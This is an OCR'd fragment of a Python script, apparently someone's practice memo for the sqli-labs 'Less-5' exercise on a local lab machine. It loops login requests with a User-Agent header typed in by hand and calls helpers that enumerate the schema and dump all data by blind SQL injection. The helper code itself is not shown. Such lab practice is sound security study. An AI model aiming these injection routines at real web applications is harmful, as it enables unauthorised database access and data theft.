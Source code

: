 ```python
        'Upgrade-Insecure - Requests': '1',
        'User-Agent': 'Mozilla / 5.0(Windows'

    }
    while 1:
        # uname = 'admin'
        # passwd = 'admin'
        data = {'uname':'admin','passwd':'admin'}
        hdr_dic['User-Agent'] = input()
        print(hdr_dic)
        req = requests.post(url,data=data,headers=hdr_dic)
        r = req.text.split('''\r\n\r\n\r\n\r\n''')[2]
        # r = re.findall(r'<br>.*/></font>',r)
        print(r)

url = "http://192.168.145.129:8888/Less-5/?id=1"

# blind_injection_structure(func='database', url=url)
# blind_injection_structure(func='table', url=url,args_name='security')
# blind_injection_structure(func='column', url=url,args_name='users')
# sqli_blind_dump_all_schema(url)

data = sqli_blind_dump_all_data(url)
# print(data)	
```

备忘。